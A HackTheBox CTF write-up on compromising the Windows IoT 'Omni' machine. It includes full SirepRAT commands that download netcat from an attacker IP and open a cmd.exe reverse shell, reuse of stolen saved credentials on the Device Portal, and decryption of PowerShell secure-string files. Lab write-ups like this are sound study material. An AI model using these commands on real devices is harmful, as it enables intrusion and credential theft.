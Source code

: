 ```yaml
---
layout: post
title:  "HackTheBox - Omni"
date:   2020-12-14 12:00:00 +1100
categories: [CTF, HTB]
tags: [ctf, htb, windows-iot]
---
```


![Image of info card](/images/htb/omni/info-card.png)


# Enumeration
---

## Initial Information

Based on the information provided by HackTheBox, Omni is rated as easy difficulty and is running an unknown Operating System.

## Editing hosts
A domain name can be assigned to the ip address localy in the `/etc/hosts` file to assist in refering to the machine.

```
sudo vim /etc/hosts
[ip] omni.htb
```

## Nmap scan

For scanning the system's TCP ports with nmap, an initial port scan is run which only focuses on finding open ports. The open ports detected are then used in a second scan where the -A flag is used to Enable OS detection, version detection, script scanning, and traceroute.

```
sudo nmap -A -T4 -Pn -oN nmap-scan-all -p$(sudo nmap -p- --min-rate=1000 -T4 omni.htb | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) omni.htb
```

![Image of nmap](/images/htb/omni/nmap.png)

Nmap reveals that port 135, 5985, 8080, 29817, 29819 and 21820 are open. 

Port 8080 shows itself as a upnp service however the version is Microsoft IIS httpd and reveals information about a Windows Device Portal.

Not knowing what this was I searched it up and the first result was regarding Window IoT.

The first search for Windows 10 device portal leads to: Windows Device Portal - Windows IoT &#124; Microsoft Docs (https://docs.microsoft.com/en-us/windows/iot-core/manage-your-device/deviceportal)

Looking at some of the other results, it seems that it's not limited to Windows IoT however I'm enclined to beleive it is running it since that would explain why HackTheBox didn't tell us the Operating System.


# Exploitation
---

## Discovery

Searching online the service

Mentions of Windows 10 IOT exploits:
https://www.zdnet.com/article/new-exploit-lets-attackers-take-control-of-windows-iot-core-devices/
https://www.bleepingcomputer.com/news/security/windows-10-iot-core-test-interface-lets-attackers-take-over-devices/


## Exploiting

The articles talk about an exploit using the tool SirepRAT https://github.com/SafeBreach-Labs/SirepRAT

Using the tool we can upload a copy of netcat then execute it to recieve a reverse shell.

Upload nc.exe
```
python SirepRAT.py omni.htb LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c powershell Invoke-WebRequest 'http://10.10.14.145/nc64.exe' -OutFile 'C:\nc64.exe'" --v
```

![Image of sireprat upload](/images/htb/omni/sireprat-upload.png)

Run nc.exe
```
python SirepRAT.py omni.htb LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\nc64.exe 10.10.14.145 4444 -e cmd.exe" --v
```

![Image of sireprat exploit](/images/htb/omni/sireprat-run.png)

NOTE: Running nc.exe gives the error message:
> This version of C:\nc.exe is not compatible with the version of Windows you're running. Check your computer's system information and then contact the software publisher.

I downloaded nc64.exe from https://eternallybored.org/misc/netcat/ which works


# Post Enumeration

With the OS likely being Windows IOT, a lot of commands are missing such as whoami and

Commands such as whoami and systeminfo didn't exist and running them over the network encounters errors, same with winPEAS.

Using powershell we can view the OS version
```
PS C:\windows\system32> [System.Environment]::OSVersion.Version[System.Environment]::OSVersion.Version
```

![Image of os info](/images/htb/omni/osinfo1.png)


Alternative
```
PS U:\Users\app> $Properties = 'Caption', 'CSName', 'Version', 'BuildType', 'OSArchitecture'
$Properties = 'Caption', 'CSName', 'Version', 'BuildType', 'OSArchitecture'
PS U:\Users\app> Get-CimInstance Win32_OperatingSystem | Select-Object $Properties | Format-Table -AutoSize
Get-CimInstance Win32_OperatingSystem | Select-Object $Properties | Format-Table -AutoSize
```

![Image of os info](/images/htb/omni/osinfo2.png)

Looking at the files in `Program Files\WindowsPowershell\Modules\PackageManagement` show scripts with saved credentials in r.bat

![Image of rbat](/images/htb/omni/powershell-rbat.png)

We can try to log inot the web portal with those credentials, then running a command on the site we can try to get aa reverse shell.


# Privilege Escalation

Logging into the web portal with the credentials.

![Image of wdp auth](/images/htb/omni/wdp-auth.png)

![Image of wdp home](/images/htb/omni/wdp-home.png)

Under Processes theres a run command

![Image of wdp cmd](/images/htb/omni/wdp-run.png)

from there we can run a netcat command to get a reverse shell as the logged on user.

Host a netcat listener
```
nc -nlvp 4444
```

Run netcat on Omni to connect back to us.
```
C:\nc64.exe 10.10.14.145 4444 -e cmd.exe
```

![Image of wdp user](/images/htb/omni/wdp-user.png)

Check user with $env:Username

Now that we know we are logged in as the user, we should be able to decrypt the flag.

Contents of user.txt is encrypted

```
$credential = Import-CliXml -Path U:\Users\app\user.txt

$credential.GetNetowrkCredential().Password
```

![Image of wdp flag](/images/htb/omni/user-flag.png)

It successfully decrypts and displays the user flag.

## Getting Root

To get root, follow the same steps as the user but log into the Windows Device Portal with the Admin credentials.

To decrypt the secure string you can use powershell code found on [hacktricks](https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters#secure-string-to-plaintext)

```
$credential = Import-CliXml -Path U:\Users\administrator\root.txt

$credential.GetNetowrkCredential().Password
```

![Image of root flag](/images/htb/omni/root-flag.png)

# Problems Encountered

Some of the problems I encountered were:

- Identifying Windows version/running commands
- The version of netcat to use on Omni as I normally use the version of netcat that comes with kali in the windows binaries folder.
- Getting SirepRAT to work

# Conclusion

This was certainly an interesting box. I found it harder than most other easy difficulty boxes because I hadn't touched the technologies involved (windows iot, SirepRAT, Windows Device Manager, windows encrypted passwords)